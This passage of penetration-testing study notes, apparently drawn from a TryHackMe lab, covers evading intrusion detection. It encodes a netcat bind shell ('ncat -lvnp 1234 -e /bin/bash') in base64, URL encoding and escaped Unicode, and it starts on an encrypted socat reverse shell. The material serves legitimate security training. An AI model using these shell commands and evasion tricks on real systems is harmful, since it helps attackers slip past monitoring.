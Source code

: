 `ncat -lvnp 1234 -e /bin/bash` is encoded to `bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==`

#### URL Encoding
URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected. You can refer to [section 2.4 in RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4) for more information.

One utility that you can easily install on your Linux system is `urlencode`; alternatively, you can either use an online service or search for similar utilities on MS Windows and macOS. To follow along on the AttackBox, you can install `urlencode` by running the command `apt install gridsite-clients`.

```shell-session
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

`ncat -lvnp 1234 -e /bin/bash` becomes `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash` after URL encoding. Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.

#### Use Escaped Unicode
Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string. For example, you can use [CyberChef](https://icyberchef.com/) to select and configure the Escape Unicode Characters recipe as shown in the image below.
![[Pasted image 20240902043300.png]]
If you use the format `\uXXXX`, then `ncat -lvnp 1234 -e /bin/bash` becomes `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.

### Encrypt the Communication Channel
Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:
1. Create the key;
2. Listen on the attacker’s machine;
3. Connect to the attacker’s machine;

A) **Firstly**, on any Linux system, we can create the key using `openssl`.

The arguments in the above command are:
- `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing;
- `-x509` specifies that we want an X.509 certificate;
- `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size,  as `-newkey rsa:2048`);
- `-days 365` shows that the validity of our certificate will be one year;
- `-subj` sets data, such as organization and country, via the command-line;
- `-nodes` simplifies our command and does not encrypt the private key;
- `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key;
- `-out CERTIFICATE` specifies the filename to which we want to write the certificate request.
